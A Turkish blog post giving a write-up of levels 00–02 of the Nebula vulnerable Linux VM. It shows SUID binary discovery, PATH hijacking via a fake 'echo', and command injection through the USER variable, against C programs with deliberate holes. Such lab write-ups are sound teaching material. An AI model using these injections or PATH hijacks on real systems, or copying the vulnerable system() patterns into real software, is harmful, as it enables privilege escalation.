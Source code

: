 ```yaml
---
layout: post
title: "Nebula Write Up"
date: 2018-02-23
comments: false
---
```

  Nebula, Linux Exploitation üzerine pratik yapma imkanı sunan zafiyetli bir sanal makinadır. Daha ayrıntılı bilgiye
[buradan](https://exploit-exercises.com/nebula/) ulaşabilirsiniz.

### Level 00

Bu level için bizden beklenen flag00 kullanıcısına ait, suid bitine sahip olan, çalıştırılabilir bir dosya bulmamız. 

{% raw %}
    level00@nebula:~$ find / -type f -user flag00 -perm -u=s 2>/dev/null
    /bin/.../flag00
    /rofs/bin.../flag00
{% endraw %}
Dosyaları incelediğimizde ELF türünde olduklarını görüyoruz. Dosyalardan birini çalıştırdığımızda,
{% raw %}
    level00@nebula:~$ /bin/.../flag00
    Congrats, now run getflag to get your flag !
    flag00@nebula:~$
{% endraw %}
flag değerini elde edebilmek için getflag dosyasını çalıştırmamız gerektiği bilgisine erişiyoruz.
{% raw %}
    flag00@nebula:~$ find / -name getflag
    /bin/getflag
    /rofs/bin/getflag
    flag00@nebula:~$ /bin/getflag
    You have successfully executed getflag on a target account
{% endraw %}

### Level 01

Bu bölümde bizden beklenen /home/flag01 dizini altında bulunan c programında, istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmamız.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>

    int main(int argc, char **argv, char **envp)
    {
     gid_t gid;
     uid_t uid;
     gid = getegid();
     uid = geteuid();

     setresgid(gid, gid, gid);
     setresuid(uid, uid, uid);

     system("/usr/bin/env echo and now what?");
    }
{% endraw %}
{% endhighlight %}

Programın işleyişini daha iyi anlayabilmek adına, kaynak kodda bulunan bazı fonksiyonlara bakalım.

> **gid_t getegid(void);**  çağırılan processin effective group-id değerini döndürüyor. 

> **uid_t geteuid(void);**  çağırılan processin effective user-id değerini döndürüyor. 

> **int setresgid(gid_t rgid,gid_t egid,git_t sgid);**  çağırılan processin real,effective,saved  group-id değerlerini set ediyor. 

> **int setresuid(uid_t ruid,uid_t euid,uid_t suid);**  çağırılan processin real,effective,saved user-id değerlerini set ediyor. 

`Effective uid/gid` ve `real uid/gid` kavramları arasındaki farkı da şu şekilde özetleyebiliriz:
> Shell login işlemi gerçekleştiğinde real uid/gid  ile effective uid/gid değerleri aynıdır, ve processi yaratan kullanıcının uid/gid'sine karşılık gelir. Effective uid/gid değeri; suid bitine sahip olan bir dosya çalıştırıldığında ve dosya sahibi ile dosyayı çalıştıran kullanıcı farklı olduğu durumlarda değişir. Dosya sahibinin uid/gid'sine karşılık gelir. Özet olarak real uid/gid processi yaratan kullanıcının uid/gid değerine eşitken, effective uid/gid dosya sahibinin uid/gid değerine eşit olur.

Aşina olmadığımız fonksiyonlar hakkında fikir sahibi olduktan sonra, asıl meseleye geri dönelim.Programı çalıştırdığımızda beklenen üzere bu şekilde bir çıktı elde ediyoruz.
{% raw %}
    level01@nebula:/home/flag01$ ./flag01
    and now what?
{% endraw %}
Bazı argümanlarla birlikte programı çalıştırmayı denesekte, bu yolla bir şey elde edemiyoruz. Manipüle edilebilir gibi görünen system() fonksiyonu üzerinden yürümeyi deniyoruz.Burada dikkatimizi çeken echo komutunun önünde bulunan /usr/bin/env komutu.
> `/usr/bin/env` komutu, programı değiştirilmiş bir ortamda çalıştırmayı sağlar. Bunun için PATH değişkeninde bulunan dizinlere sırası ile bakılır. Çalıştırılmak istenen program ilk hangi dizinde bulunursa, o dizindeki program çalıştırılır.

> `PATH değişkeni`, sistemin çalıştırılabilir dosyaları bulmak için nerelere bakması gerektiğini tanımlar.

Bizde PATH değişkenine yeni bir dizin ekleyip,eklediğimiz dizinin PATH değişkeninde ki sırası önemli, çalıştırmak istediğimiz dosyayı o dizine echo ismiyle kaydettiğimizde, env komutu ilk bizim echo programımız ile karşılaşacağı için onu çalıştıracaktır.
{% raw %}
    level01@nebula:/home/flag01$ PATH=/tmp:$PATH
    level01@nebula:/home/flag01$ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
    level01@nebula:/home/flag01$ cp /bin/getflag /tmp/echo
    level01@nebula:/home/flag01$ ./flag01
    You have successfully executed getflag on a target account
{% endraw %}

### Level 02
Bu bölüm de bir önceki ile benzer olup, bizden beklenen /home/flag02 dizininde bulunan programda,istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmak.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
{% endraw %}
{% endhighlight %}
Programı çalıştırmadan önce kaynak kodu inceliyoruz.getenv("USER") fonksiyonu ile çağırılan processe ait USER çevresel değişkeni öğreniliyor.Değer asprintf() fonksiyonunda ikinci parametrede yerine konuluyor. Ardından bu string buffer değişkenine atanıyor.Daha sonra buffer değişkeni system() fonksiyonuna parametre olarak veriliyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02 is cool")
    level02 is cool
{% endraw %}
Olayı tekrar özetlemek gerekirse alınan USER değişkeni ile bir string oluşturuluyor. Ve bu string sistem üzerinde komut olarak çalıştırılıyor. Buradan bir nevi injection yapmamız gerektiğini anlıyoruz.
{% raw %}
    level02@nebula:/home/flag02$ USER="level02; /bin/getflag ; echo"
    level02@nebula:/home/flag02$ echo $USER
    level02; /bin/getflag ; echo
{% endraw %}
Böylece buffer değişkeninin içeriği "/bin/echo level02; /bin/getflag ; echo is cool" olmuş oluyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02; /bin/getflag ; echo is cool")
    level02
    You have successfully executed getflag on a target account
    is cool
{% endraw %}

